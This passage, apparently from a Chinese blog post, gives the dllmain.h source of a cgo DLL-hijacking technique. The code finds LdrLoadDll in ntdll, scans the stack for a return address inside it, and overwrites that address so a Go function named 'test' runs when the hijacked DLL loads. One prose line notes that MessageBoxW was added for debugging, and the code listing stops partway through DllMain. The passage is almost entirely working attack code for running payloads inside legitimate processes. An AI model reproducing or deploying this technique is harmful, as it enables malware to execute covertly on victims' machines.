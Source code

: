 cgo中dllmain.h代码,因为测试了几次发现不行，加了个 `MessageBoxW`代码方便调试。

    
          1. #include <windows.h>
    
      2.   
    
    
      3. extern void test();
    
      4.   
    
    
      5. void dlljack2(){
    
      6.     char evilstring[10] = { 0x90 };
    
      7.     DWORD ldrLoadDll = (DWORD)GetProcAddress(GetModuleHandleA("ntdll"), "LdrLoadDll");
    
      8.     DWORD* stack = (DWORD)evilstring + (DWORD)evilstring % 4;
    
      9.     while (1)
    
      10.     {
    
      11.         stack++;
    
      12.         if ((DWORD)stack > ldrLoadDll + 0x1000) {
    
      13.             break;
    
      14.         }
    
      15.         if (*stack > ldrLoadDll && *stack < ldrLoadDll + 0x1000) {
    
      16.             *stack = (DWORD)test;
    
      17.             MessageBoxW(0,0,0,0);
    
      18.             break;
    
      19.         }
    
      20.     }
    
      21. }
    
      22. BOOL WINAPI DllMain(
    
      23.     HINSTANCE _hinstDLL,  // handle to DLL module
    
      24.     DWORD _fdwReason,     // reason for calling function
    
      25.     LPVOID _lpReserved)   // reserved
    
      26. {
    
      27.     switch (_fdwReason) {
    
      28.     case DLL_PROCESS_ATTACH:
    
      29.         MessageBoxW(0,0,0,0);
    
      30.         dlljack2();
    
      31.         break;
    